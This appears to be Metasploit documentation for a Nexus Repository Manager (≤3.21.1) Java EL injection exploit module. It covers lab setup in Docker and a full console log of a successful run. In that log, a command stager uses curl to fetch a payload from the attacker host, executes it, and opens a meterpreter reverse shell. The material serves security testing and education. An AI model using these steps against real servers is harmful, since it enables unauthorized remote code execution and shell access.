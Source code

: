 ## Vulnerable Application

### Description

This module exploits a Java Expression Language (EL) injection in Nexus
Repository Manager versions up to and including 3.21.1 to execute code
as the Nexus user. Tested against 3.21.1-01.

### Setup

Install Docker using the [official instructions](https://docs.docker.com/get-docker/).
Follow the instructions for your platform and distribution (if using
Linux). If you're using OS X, you may prefer to `brew cask install docker`
after installing [Homebrew](https://brew.sh/).

Run `docker run -d -p 8081:8081 --name nexus sonatype/nexus3:3.21.1`
(note the added `3.21.1` tag) as per Sonatype's [Docker Hub instructions](https://hub.docker.com/r/sonatype/nexus3/#running).

Open a browser and go to <http://localhost:8081/>. Sign in as the
"admin" user. The prompts will instruct you on how to proceed. If you
need the admin password, you can run `docker exec nexus cat /nexus-data/admin.password`.

If you have trouble getting the password change to stick, browse to
<http://localhost:8081/#user/account> and change it again.

### Targets

```
Id  Name
--  ----
0   Nexus Repository Manager <= 3.21.1
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### USERNAME

Set this to a valid Nexus username.

### PASSWORD

Set this to a valid Nexus password.

## Scenarios

### Nexus Repository Manager 3.21.1-01 from [Docker Hub](https://hub.docker.com/r/sonatype/nexus3)

```
msf5 > use exploit/linux/http/nexus_repo_manager_el_injection
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > options

Module options (exploit/linux/http/nexus_repo_manager_el_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Nexus password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8081             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       Nexus username
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nexus Repository Manager <= 3.21.1


msf5 exploit(linux/http/nexus_repo_manager_el_injection) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Nexus 3.21.1-01 is a vulnerable version.
[*] Executing command stager for linux/x64/meterpreter_reverse_tcp
[*] Logging in with admin:admin
[+] Logged in with NXSESSIONID=8b6fd077-1830-4e2b-90e8-2997d260b5c0;
[*] Using URL: http://0.0.0.0:8080/t6NXrxF
[*] Local IP: http://192.168.1.3:8080/t6NXrxF
[*] Generated command stager: ["curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF", "chmod +x /tmp/hgzeytII", "/tmp/hgzeytII", "rm -f /tmp/hgzeytII"]
[*] Executing command: curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF
[+] Successfully executed command: curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF
[*] Client 192.168.1.3 (curl/7.61.1) requested /t6NXrxF
[*] Sending payload to 192.168.1.3 (curl/7.61.1)
[*] Command Stager progress -  50.00% done (54/108 bytes)
[*] Executing command: chmod +x /tmp/hgzeytII
[+] Successfully executed command: chmod +x /tmp/hgzeytII
[*] Command Stager progress -  70.37% done (76/108 bytes)
[*] Executing command: /tmp/hgzeytII
[+] Successfully executed command: /tmp/hgzeytII
[*] Command Stager progress -  82.41% done (89/108 bytes)
[*] Executing command: rm -f /tmp/hgzeytII
[+] Successfully executed command: rm -f /tmp/hgzeytII
[*] Command Stager progress - 100.00% done (108/108 bytes)
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:53094) at 2020-04-07 19:25:38 -0500
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ 282665c16215 (uid=200, gid=200, euid=200, egid=200)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Red Hat Enterprise Linux 8 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
